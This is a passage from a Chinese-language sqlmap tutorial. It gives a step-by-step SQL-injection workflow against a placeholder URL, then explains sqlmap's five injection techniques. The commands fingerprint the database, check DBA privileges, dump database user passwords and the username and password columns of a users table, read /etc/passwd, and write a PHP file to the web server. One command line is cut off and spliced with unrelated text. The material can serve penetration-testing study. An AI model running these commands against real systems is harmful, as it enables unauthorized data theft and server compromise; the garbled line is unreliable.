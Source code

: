 ```
```

## 3. 简单的注入流程 

```
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

#### 3.1 注入判断

当给`sqlmap`这么一个`url`的时候，它会：

```
1. 判断可注入的参数
2. 判断可以用那种SQL注入技术来注入
3. 识别出哪种数据库
4. 根据用户选择，读取哪些数据
```

`sqlmap`支持五种不同的注入模式：

```
1. 基于布尔的盲注，即可以根据返回页面判断条件（真\|假）的注入。

2. 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

4. 联合查询注入，可以使用union的情况下的注入。

5. 堆查询注入，可以同时执行多条语句的执行时的注入。（使用;分隔开多条语句，最为灵活，可以自己构造select（含）外的其他语句）
```
